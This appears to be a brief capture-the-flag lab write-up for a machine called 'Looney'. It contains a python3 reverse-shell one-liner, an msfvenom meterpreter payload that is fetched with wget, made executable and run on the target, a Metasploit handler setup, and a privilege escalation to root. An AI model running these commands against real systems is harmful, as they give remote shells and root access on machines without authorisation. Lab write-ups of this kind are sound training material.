






Looney
Port Scan

Port 80

Reverse Shell
I set up a netcat listener. And put a python3 reverse shell into the webshell.
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

Metasploit Reverse Shell
Then I decided to upgrage my reverse shell with metasploit
Generate payload:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1212 -f elf -o shell.elf
Set up python3 http server
python3 -m http.server
Get the shell.elf on the target system.
wget http://10.10.14.2:8000/shell.elf

Now, We need to set up listener in Metasploit.
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lport 1212
set lhost your-ip
run
Moving back to the target system, we need to set permissions for our shell.elf to be able to execute it.
chmod +x shell.elf
Now, execute it
./shell.elf


Then I used suggester and used the highlighted vulnerability

Root
I used the exploit

First time it did not work, but after the second try it did give me a root shell!
(In metasploit you can use run or exploit basically both of them just start the exploit, so it doesn't matter that first time I used run and the second time I used exploit)